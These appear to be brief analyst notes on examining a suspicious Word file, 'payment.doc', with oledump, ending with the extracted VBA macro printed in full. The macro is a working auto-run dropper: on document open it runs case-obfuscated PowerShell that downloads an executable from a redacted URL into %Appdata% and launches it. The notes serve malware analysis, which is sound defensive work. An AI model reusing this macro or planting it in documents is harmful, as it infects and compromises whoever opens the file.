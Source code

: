 # payment.doc notes

- oledump payment.doc
- interesting that there are macros, lookit number 5/6
- number 7: capital M `7: M`
- `oledump payment.doc -s 7` to view dump of macro...hmmm...downloading le viruses
- `oledump payment.doc -s 7 -d` is hex columns 
- `oledump payment.doc -s 7 -v` is nice code format...

```
Attribute VB_Name = "ThisDocument"
Attribute VB_Base = "1Normal.ThisDocument"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
Attribute VB_TemplateDerived = True
Attribute VB_Customizable = True
Private Sub Document_Open()
Shell ("cmd.exe /c PoWerSHElL (nEW-oBjEcT sYsTeM.neT.wEBcLiEnT).dOWNLOadfIlE('http://<REDACTED>/NDGAFV.exe','%Appdata%\playa.exe');&start %Appdata%\playa.exe& exit")
End Sub
```

